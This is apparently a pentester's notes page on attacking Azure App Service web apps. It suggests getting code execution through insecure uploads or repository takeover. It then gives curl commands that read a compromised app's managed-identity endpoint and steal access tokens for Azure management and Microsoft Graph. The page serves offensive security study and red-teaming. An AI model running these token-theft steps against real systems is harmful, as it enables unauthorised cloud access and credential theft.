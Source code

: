 ```yaml
---
title: Web App
---
```


[[notes/azure/index]] Web Apps also known as App Service publish Linux or Windows containers over HTTP(S).

Gain code execution trough classic web vulnerabilities like insecure file upload or take control over the source code repository.
The app can have a managed identity assigned that might have interesting permissions on other Azure resources.

Use code execution in an exploited web app to check if it has a managed identity assigned and retrieve access tokens for ARM and MS Graph.

~~~ bash
env | grep IDENTITY
curl -sSf $IDENTITY_ENDPOINT -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" -G -d api-version=2019-08-01 -d resource=https://management.azure.com
curl -sSf $IDENTITY_ENDPOINT -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" -G -d api-version=2019-08-01 -d resource=https://graph.microsoft.com
~~~

With this access tokens you can enumerate [[notes/azure/index]] resources and [[notes/m365/index]] access.

References:

- [twitter.com/_wald0/status/1626260031871291396](https://twitter.com/_wald0/status/1626260031871291396), principal with Owner, Contributor or Website Contributor role can execute commands on the OS under the web app and therefore take over its managed identity
- [Abusing Azure App Service Managed Identity Assignments](http://web.archive.org/web/20230216074544/https://scribe.rip/@specterops/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)
